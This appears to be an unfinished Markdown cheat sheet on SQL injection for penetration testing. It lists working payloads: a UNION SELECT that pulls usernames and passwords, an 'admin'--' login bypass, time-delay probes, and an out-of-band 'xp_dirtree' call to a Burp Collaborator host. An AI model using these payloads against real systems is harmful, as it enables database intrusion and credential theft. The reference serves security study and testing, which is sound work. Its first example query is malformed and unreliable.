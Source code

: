 <!--
 * This file is part of RS Cheat Sheets.
 *
 * RS Cheat Sheets is free software: you can redistribute it and/or modify
 * it under the terms of the GNU General Public License as published by
 * the Free Software Foundation, either version 3 of the License, or
 * (at your option) any later version.
 *
 * RS Cheat Sheets is distributed in the hope that it will be useful,
 * but WITHOUT ANY WARRANTY; without even the implied warranty of
 * MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
 * GNU General Public License for more details.
 *
 * You should have received a copy of the GNU General Public License
 * along with RS Cheat Sheets. If not, see <https://www.gnu.org/licenses/>.
 */
-->

[Home](../README.md)

Todo
- Example of out-of-bound network interactions
- Get all tables
- Get all columns in a table
- Example of an SQL injection with better explanation
- Star repo of different sql attacks

# SQL Injection(SQLi)
SQL injection allows an attacker to make unrequested queries or modifications to the database.

```SQL
SELECT * FROM users WHERE = ' userInput ';
```

When sending request since you cannot use spaces you can use `%20` instead.

## Test is the db vulnerable to SQLi
- Look for SQL keywords in source code which may tell you what they are using.
- Input single quote `'` and look for errors
- Input some SQL and see how that changes the responses. Ex: `ASCII(97)`
- Look at the response differences between `' OR 1=1; --` and `' OR 1=2; --`

Blind SQL injection are sql injections where the attacker cannot see any responses(including errors) from the database.

To solve this you can use
- Payloads designed to trigger time delays. Ex: `'; WAITFOR DELAY ('0:0:20');--` or `SELECT SLEEP(20);--`
- Out-of-bound network interactions
	- The attacker injects SQL which triggers the database to communicate with the attacker's server.

```SQL
exec master..xp_dirtree
'//0efdymgw1o5w9inae8mg4dfrgim9ay.
burpcollaborator.net/a'
```

## List of good SQL attacks
- `' UNION SELECT username, password FROM users; --`
- `' OR 1=1; YOUR INJECTION HERE; --`
- On a login page
	- `admin'--` or `administrator'--` for the username
- Get the version of the database
	- Oracle: `SELECT * FROM v$version`
	- MySQL: `SELECT VERSION();`
	- Postgres: `SELECT version();`
	- SQL Server: `SELECT @@VERSION;`
	- SQLite: `SELECT sqlite_version();`
	- IBM Db2: `SELECT * FROM sysibm.sysversions;`
- Get all tables
	- MySQL: `SHOW TABLES;`
	- Postgres, SQL Server: `SELECT * FROM information_schema.tables`
	- Oracle: `SELECT table_name FROM user_tables;`
	- SQLite: `SELECT name FROM sqlite_master WHERE type='table';`
	- IBM Db2: 
- Get all columns in a table
	- 

' UNION SELECT NULL, NULL, NULL;